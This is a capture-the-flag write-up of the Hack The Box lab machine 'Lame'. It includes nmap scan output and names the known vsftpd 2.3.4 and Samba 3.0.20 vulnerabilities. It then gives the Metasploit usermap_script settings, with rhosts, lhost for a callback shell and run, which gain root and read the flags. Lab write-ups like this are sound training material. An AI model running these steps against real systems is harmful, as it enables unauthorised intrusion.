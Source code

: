 ```yaml
---
description: Walkthrough of the HTB machine "Lame"
cover: >-
  https://images.unsplash.com/photo-1625768375325-ce6bdd4a2329?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHwxMHx8bGFtZXxlbnwwfHx8fDE3MDk4NTk2NTV8MA&ixlib=rb-4.0.3&q=85
coverY: 17
---
```


# 😒 Lame (10.10.10.3)

## Scanning

### Nmap

Let's start with the usual Nmap scan:

```bash
nmap -T4 -A 10.10.10.3 -Pn

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-07 21:09 -03
Nmap scan report for 10.10.10.3
Host is up (0.16s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.19
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h30m00s, deviation: 3h32m10s, median: -1s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-03-07T19:09:37-05:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.19 seconds
```

## Enumeration

As we can see, Port 21 is running FTP on VSFTPD v2.3.4, which is a vulnerable version that allows for Backdoor Command Execution, a vulnerability portraited by [CVE-2011-2523](https://www.exploit-db.com/exploits/49757).

However, in this case, the exploit won't work. This is due to the fact that there's a Firewall on the target blocking these connections. A more detailed explanation can be found [here](https://0xdf.gitlab.io/2020/04/07/htb-lame.html#beyond-root---vsftpd). That being said, we should take another route.

If we take a look at the SMB Version on the target, we can see that it is running SMB v3.0.20. This version is vulnerable to [CVE-2007-2447](https://www.exploit-db.com/exploits/16320), which is exploitable by a Metasploit module that allows for Command Execution.

So we can search for this exploit on "_msfconsole_":

```bash
msf6 > search username map
```

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p>Exploit for SMB v3.0.20 on Metasploit</p></figcaption></figure>

## Exploitation

Now we just setup our options:

{% code overflow="wrap" %}
```bash
# First, we'll setup our "rhosts", which is our target's IP
msf6 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3

# Next, we set our "lhost" to our IP, which, once connected to HTB's VPN should be your "tun0"
msf6 exploit(multi/samba/usermap_script) > set lhost tun0

# Then, run
msf6 exploit(multi/samba/usermap_script) > run
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p>We have Root</p></figcaption></figure>

### User Flag

The "user.txt" flag is located in /home/makis/user.txt:

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption><p>User Flag</p></figcaption></figure>

### Root Flag

The "root.txt" flag is located in /root/root.txt:

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption><p>Root Flag</p></figcaption></figure>

And this was the CTF!&#x20;

Thank you so much for taking the time to read my WriteUp!

See you in another box!
